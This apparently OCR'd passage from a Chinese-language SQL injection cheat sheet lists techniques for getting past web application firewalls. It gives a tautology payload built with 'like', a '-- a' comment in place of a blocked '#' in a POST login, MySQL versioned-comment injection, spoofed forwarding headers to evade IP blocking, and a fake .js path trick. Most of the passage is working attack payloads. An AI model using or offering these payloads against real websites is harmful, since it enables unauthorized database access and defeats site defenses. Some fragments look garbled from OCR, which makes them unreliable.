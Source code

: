 ```
`select group_ws('','x','y')`

12.=屏蔽
`like rlike regexp <>`
`id =1' or '1' like '1`

13.POST屏蔽#
考虑使用-- a大部分情况可以当作#用
`uname=admin -- a&passwd=admin`

14.特殊符号过waf
`/*!50001 select * from users */`
这里的50001=如果数据库版本是5.00.01以上的版本，这个语句才会被执行

15.ip地址拦截
放在burp的数据包中的
`x-forward-for
x-remote-ip
x-originating-ip
x-remote-addr
x-real-ip`

16.修改资源，比如：

```
http://www.xx.com/sql.php?id=1
http://www.xx.com/sql.php/1.js?id=1
```






